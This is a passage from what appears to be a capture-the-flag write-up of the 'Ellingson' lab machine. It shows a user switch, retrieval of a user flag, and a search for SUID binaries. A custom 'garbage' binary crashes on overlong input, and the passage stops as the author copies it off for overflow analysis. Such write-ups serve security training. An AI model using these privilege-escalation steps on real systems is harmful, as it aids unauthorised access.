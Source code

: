 ```

hal@ellingson:/var/backups$ su - margo
Password: 
margo@ellingson:~$ id
uid=1002(margo) gid=1002(margo) groups=1002(margo)

```

And now I can grab user.txt:

```

margo@ellingson:~$ cat user.txt 
d0ff9e3f...

```

## Priv: margo –> root

### Enumeration

Looking around, I found a suid binary that looked interesting:

```

margo@ellingson:/dev/shm$ find / -perm -4000 -type f -ls 2>/dev/null | head
...[snip]...
  1049073     20 -rwsr-xr-x   1 root     root        18056 Mar  9 21:04 /usr/bin/garbage
...[snip]...

```

It definitely seems non-standard, and seems vulnerable to an overflow:

```

margo@ellingson:/dev/shm$ garbage
Enter access password: password

access denied.
margo@ellingson:/dev/shm$ garbage
Enter access password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

access denied.
Segmentation fault (core dumped)

```

I’ll pull this binary back to take a look:

```

root@kali# scp margo@10.10.10.139:/usr/bin/garbage .
margo@10.10.10.139's password: 
garbage                                                  100%   18KB  91.1KB/s   00:00   

```
